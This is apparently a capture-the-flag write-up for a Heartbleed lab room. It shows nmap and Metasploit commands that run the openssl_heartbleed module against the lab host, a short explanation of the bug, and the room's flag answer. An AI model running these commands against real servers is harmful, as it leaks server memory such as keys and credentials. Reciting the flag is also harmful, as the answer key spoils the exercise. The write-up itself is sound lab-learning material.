 # Heartbleed - Easy

```shell
nmap -T4 -A -v 34.240.80.21

msfconsole -q

search heartbleed

use auxiliary/scanner/ssl/openssl_heartbleed

show options

set RHOSTS 34.240.80.21

show advanced options

set VERBOSE true

run
#this gives us flag
```

* Heartbleed is a bug due to implementation in ```OpenSSL``` library from versions 1.0.1 to 1.0.1f; this allows a user to access memory on the server.

* Open ports & services:

  * 22 - ssh - OpenSSH 7.4
  * 111 - rpcbind - RPC
  * 443 - ssl/http - nginx 1.15.7

* The webpage does not contain anything interesting.

* As it is given that the exploit is related to the Heartbleed bug, we can search for it on Metasploit.

* We can use the ```openssl_heartbleed``` module with verbosity, and run it to get flag.

```markdown
1. What is the flag? - THM{sSl-Is-BaD}
```
